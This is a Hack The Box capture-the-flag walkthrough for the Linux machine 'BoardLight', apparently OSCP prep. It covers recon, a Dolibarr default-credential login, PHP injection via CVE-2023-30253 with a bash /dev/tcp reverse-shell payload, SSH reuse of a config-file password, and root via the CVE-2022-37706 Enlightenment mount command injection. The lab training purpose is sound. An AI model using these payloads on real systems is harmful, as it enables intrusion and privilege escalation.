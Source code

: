 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)
- **Exploits Used**:
  - Default Dolibarr credentials 🆔  
  - PHP code injection via **CVE-2023-30253** 🔓  
  - SSH login with config‐extracted creds 🔑  
  - Local root via **CVE-2022-37706** (Enlightenment WM) 👑  

---

## 🕵️ Recon

```bash
nmap -p- --min-rate 10000 10.10.11.11 -oA boardlight
```

```bash
nmap -p 22,80 -sCV 10.10.11.11 -oA boardlight-scv
```

- **[SSH](SSH)** (22)  
- **[HTTP](HTTP.md)** (80) → Apache 2.4.41 on Ubuntu  
- Webroot hosts **Dolibarr v17.0.0** at `crm.board.htb`

# Directory / subdomain fuzzing
```bash
feroxbuster -u http://10.10.11.11 -x php
```

```bash
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all
```
### → found crm.board.htb
---

## 1) 💥 Foothold as www‑data

### 1. Login to Dolibarr CRM

- Browse to http://crm.board.htb/
- **Default creds**: `admin` / `admin`

### 2. Identify PHP injection (CVE-2023-30253)

- Create a new **Website → Page**  
- Save content containing `<?Php phpinfo(); ?>`  
- “Show dynamic content” toggle must be enabled to execute

### 3. Get reverse shell

```php
<?Php system('bash -i >& /dev/tcp/10.10.14.13/6969 0>&1'); ?>
```

- Save & preview → shell lands as `www-data` on port 443  

```bash
# Upgrade shell
script /dev/null -c bash
```

---

## 2) Foothold as www‑data [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

# On our local machine
```

nc -lvnp 9001
```

# On the victim machine
```

python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001
```

## 🐚 Pivot as larissa

### 1. Dolibarr config reveals DB creds

### /var/www/html/crm.board.htb/htdocs/conf/conf.php
```php
$dolibarr_main_db_user = 'dolibarrowner';
$dolibarr_main_db_pass = 'serverfun2$2023!!';
```

### 2. SSH as larissa

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

- **User flag**:

```bash
cat ~/user.txt
# cbcdd575************************
```

---

## 🚀 Privilege Escalation to root

### 1. Enumerate SUID binaries
#### /usr/lib/.../enlightenment_sys (setuid root)

```bash
find / -perm -4000 2>/dev/null | grep enlightenment_sys
```

### 2. Exploit CVE-2022-37706

```bash
# Prepare payload
mkdir -p /tmp/net
mkdir -p "/tmp/;/tmp/infinit3i"
echo "/bin/bash" > /tmp/infinit3i
chmod +x /tmp/infinit3i
```
# Trigger command injection
```bash
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/infinit3i" /tmp///net
```

---

## 🛠 Tools & References

- **SMB & SSH**: `nmap`, `sshpass`, `feroxbuster`, `ffuf`  
- **Dolibarr**: Default creds + page editor  
- **CVE-2023-30253**: PHP injection in Dolibarr → [Swascan writeup](https://swascan.com/blog-dolibarr-vulnerabilities/)  
- **CVE-2022-37706**: Enlightenment WM → [GitHub POC](https://github.com/phra/Enlightenment-CVE-2022-37706-poc)  